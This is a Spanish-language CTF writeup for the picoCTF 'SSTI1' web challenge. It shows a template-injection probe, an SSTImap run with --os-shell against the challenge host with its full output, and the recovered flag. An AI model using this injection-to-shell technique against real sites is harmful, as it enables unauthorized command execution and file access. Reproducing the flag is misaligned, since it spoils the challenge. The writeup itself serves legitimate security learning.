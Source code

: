 ```yaml
---
title: SST1
date: 2025-04-10 17:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, ssti, sstimap, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI1
Author: Venax
Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto parece mostrar una web donde puedes introducir lo que quieras y lo mostrará en una página
Lanzamos la instancia y nos mostrará una web con un formulario y un botón para enviarlo. 
``` html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 

*Announcements may only reach yourself 
```
Cuando envías el formulario en el botón ok , te redirige a una web http://rescued-float.picoctf.net:54968/announce y allí aparecerá
el "anuncio" introducido en letras grandes

Al principio no tenía ni idea así que mire la pista que da, __Server Side Template Injection__ . Entonces fue cuando caí en la cuenta
muchos templates utilizan las llaves "{}" para parametrizar valores en los mismos, entonces comencé a experimentar con este tipo de 
inyección. 

Encontré una que produjo un error en el servidor al dividir por 0, lo que indica que en cierta manera el servidor ejecuta lo que está dentro de las llaves
``` shell
{ {1/0} }
```

``` html
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

Para tratar de explotar si existiera alguna vulenerabilidad utilizo SSTIMap [hacktools/#ssti](../hacktools/#ssti)
La primera prueba me confirma que parece que la web utiliza un plugin que es inyectable
**jinja2 plugin has confirmed injection with tag '*'**

Ahora podría atacar el plugin en concreto pero voy a intentarlo de nuevo pasandole la flag --os-shell y ver que pasa
``` shell
(sstimap) pablo☠office sstimap$ python sstimap.py --url="http://rescued-float.picoctf.net:55270" -f  --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://rescued-float.picoctf.net:55270/ "content="
[*] Scanning form with url: http://rescued-float.picoctf.net:55270/
[*] Testing if Body parameter 'content' is injectable
[*] Twig_v1 plugin is testing rendering with tag '*'
[*] Freemarker plugin is testing rendering with tag '*'
[*] Jinja2 plugin is testing rendering with tag '*'
[+] Jinja2 plugin has confirmed injection with tag '*' 
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ ls
__pycache__
app.py
flag
requirements.txt
posix-linux $ cat flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```
Pues resulta que te podemos conseguir una shell y haciendo un simple ls y cat obtenemos la flag.

flag: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}**